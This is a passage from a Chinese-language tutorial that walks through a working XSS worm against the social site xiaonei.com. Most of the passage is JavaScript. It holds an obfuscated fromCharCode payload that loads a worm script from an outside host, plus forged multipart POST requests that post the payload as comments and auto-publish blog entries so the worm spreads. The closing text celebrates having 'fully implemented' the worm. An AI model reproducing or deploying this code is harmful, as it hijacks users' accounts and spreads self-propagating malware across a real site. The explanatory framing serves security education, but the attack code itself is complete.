  var _body="[link]http://www.baidu.com/\" style=\"cos:expression(eval(String.fromCharCode(105,61,34,102,117,110,99,116,105,111,110,32,108,111,97,100,40,41,123,118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,83,67,82,73,80,84,39,41,59,120,46,115,114,99,61,39,104,116,116,112,58,47,47,101,118,105,108,99,111,115,46,103,111,111,103,108,101,112,97,103,101,115,46,99,111,109,47,120,45,120,105,97,111,110,101,105,45,119,111,114,109,46,106,115,39,59,120,46,100,101,102,101,114,61,116,114,117,101,59,100,111,99,117,109,101,110,116,46,103,101,116,69,108,101,109,101,110,116,115,66,121,84,97,103,78,97,109,101,40,39,72,69,65,68,39,41,91,48,93,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,125,59,102,117,110,99,116,105,111,110,32,105,110,106,101,99,116,40,41,123,119,105,110,100,111,119,46,115,101,116,84,105,109,101,111,117,116,40,39,108,111,97,100,40,41,39,44,49,48,48,48,41,125,59,105,102,40,119,105,110,100,111,119,46,120,33,61,49,41,123,119,105,110,100,111,119,46,120,61,49,59,105,110,106,101,99,116,40,41,125,59,34,59,101,120,101,99,83,99,114,105,112,116,40,105,41))[/link]";
  //这就是我们的 XSS 陷阱，它将作为邪恶的评论内容出现
  //下面开始构造 HTTP 消息头
  argv_1="\r\n";//这行不可缺少，HTTP 消息头的第一行是空白的
  //下面所有的 name="xxxx"都对应于表单中的表单元素的 name 属性值，我们在模拟表单提交过程
  //Content-Disposition 是 MIME 协议的扩展，这里指定其使用 form-data 表单数据类型
  argv_1+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"body\"\r\n\r\n";
  argv_1+=(_body+"\r\n");
  argv_1+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"owner\"\r\n\r\n";
  argv_1+=(r[2]+"\r\n");
  argv_1+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n";
  argv_1+=(r[1]+"\r\n");
  argv_1+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"to\"\r\n\r\n";
  argv_1+=("0"+"\r\n");
  argv_1+="---------------------7964f8dddeb95fc5--\r\n";
  //注意最后一行的分割特征符---------------------7964f8dddeb95fc5 最后有两减号 --，表示 HTTP 消息头结束
  _3or7("POST", src, argv_1);
  //使用 _3or7() 函数，发送我们构造好的 HTTP 消息头
}

// _1() 函数将实现自动发表最新文章的功能，文章名为“3.7 维度 :-(”；内容为“离散值，可惜你看到的是乱码。”
// _1() 函数 HTTP 消息头的构造与 _2() 函数中的一样，我就不重复注释了
function _1() {
  src="http://blog.xiaonei.com/NewEntry.do";
  var title="\u0033\u002e\u0037\u7ef4\u5ea6 :- (";
  var _body="\u79bb\u6563\u503c\uff0c\u53ef\u60dc\u4f60\u770b\u5230\u7684\u662f\u4e71\u7801\u3002";
  var blog_pic_id="";
  var pic_path="";
  var blogControl="99";
  argv="\r\n";
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"title\"\r\n\r\n";
  argv+=(title+"\r\n");
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"body\"\r\n\r\n";
  argv+=(_body+"\r\n");
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"theFile\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n\r\n";
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"blog_pic_id\"\r\n\r\n";
  argv+=(blog_pic_id+"\r\n");
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"pic_path\"\r\n\r\n";
  argv+=(pic_path+"\r\n");
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"blogControl\"\r\n\r\n";
  argv+=(blogControl+"\r\n");
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"relative_optype\"\r\n\r\n";
  argv+=("publisher"+"\r\n");
  argv+="---------------------7964f8dddeb95fc5\r\nContent-Disposition: form-data; name=\"del_relative_id\"\r\n\r\n\r\n";
  argv+="---------------------7964f8dddeb95fc5--\r\n";
  _3or7("POST", src, argv);
  //使用 _3or7() 函数，发送我们构造好的 HTTP 消息头
  _2();
  //调用 _2() 函数（见上面）
}

// _3or7() 函数使用最开始创建的 XMLHttpRequest 对象来完成数据的获取与发送，这里我们没使用异步（异步则 AJAX）
function _3or7(_m,_s,_a){
  _x.open(_m,_s,false);
  //open 的第三个参数为 false，则表示同步获取或发送数据
  if(_m=="POST") _x.setRequestHeader("Content-Type","multipart/form-data; boundary=-------------------7964f8dddeb95fc5");
  //设置 HTTP 请求头类型，并指定使用 -------------------7964f8dddeb95fc5 作为上面 HTTP 消息头的分割特征符
  _x.send(_a);
  return _x.responseText;
  //如果有返回值的话，就返回
}
```

眩晕了？到这里我们已经完整实现一个 XSS WORM 了。看看，这个和仅仅一个弹出框比起来，是不是有趣而刺激多了？当然也复杂多了，需要有一定的编码能力。虽然 XSS WORM 使用的核心技术往往相似，但是在不同的 WEB2.0 环境下，XSS WORM 也会有很多差别。

很多技术细节不适合在本文出现，否则我可以考虑出书了（有没有人买？）--！能从文中大致了解到 WEB2.0 环境下 XSS 的流程就已经足够。如果你要深挖的话，那好好准备吧，XSS 可不仅就这么点东西。最后的相关文章中将列出与本文有关的一些资料。

**声明：** 本章中的部分 XML 和 Ajax 内容参考了 IBM 公司官方网站上的技术开发文档；同时 Ajax 中的部分黑客技术参考了由 Shreeraj Shah 写的《Top 10 Ajax Security Holes and Driving Factors》，原文在 http://www.net-security.org/article.php?id=956。非常感谢 IBM 公司的技术开发文档和 Shreeraj Shah。